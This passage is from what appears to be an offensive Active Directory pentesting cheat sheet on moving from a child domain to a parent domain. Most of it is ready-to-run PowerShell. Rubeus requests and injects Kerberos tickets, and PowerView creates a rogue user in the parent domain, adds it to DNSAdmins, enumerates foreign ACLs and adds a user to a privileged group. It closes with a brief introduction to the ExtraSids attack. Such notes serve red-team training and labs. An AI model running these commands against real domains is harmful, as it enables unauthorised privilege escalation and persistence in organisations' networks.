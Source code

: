 <details><summary>Enum Foreign ACLs for all users</summary></details>

#### Abuse Foreign Group Membership

```powershell
# Sacrificial logon
./Rubeus createnetonly /program:powershell.exe /show

# Request a ticket
.\Rubeus.exe asktgt /user:jerry /password:jerry /domain:dev.zencorp.ad /ptt

# Create a new domain user in parent domain
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'T3st@123' -AsPlainText -Force
New-DomainUser -Domain zencorp.ad -SamAccountName testuser -AccountPassword $SecPassword

# Add new user in DNSAdmins
Add-ADGroupMember -identity "DNSAdmins" -Members testuser -Server zencorp.ad
```

#### Foreign ACL Principals

Users from a child domain can have ACL permissions on groups/users in parent domain.

```powershell
# Enumerate ACLS
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid rita
Tools> Get-DomainObjectAcl -ResolveGUIDs -Identity * -domain zencorp.ad | ? {$_.SecurityIdentifier -eq $sid}
```

#### Abuse Foreign ACL

```powershell
# Sacrificial logon
./Rubeus createnetonly /program:powershell.exe /show

# Request a ticket
.\Rubeus.exe asktgt /user:rita /password:rita /domain:dev.zencorp.ad /ptt

# Add member
Add-DomainGroupMember -identity 'Infrastructure' -Members 'DEV\rita' -Domain zencorp.ad -Verbose

# Confirm
Get-DomainGroupMember -Identity 'Infrastructure' -Domain zencorp.ad -Verbose

```

### <mark style="color:yellow;">ExtraSids Attack</mark>

SID History Abuse or ExtraSids attacks can be used to gain higher privileges, going from a child domain to a parent domain. This is used because of SID History. An SID contains permissions, and SID was created to help moving users between domains, as it will let you keep old permissions.
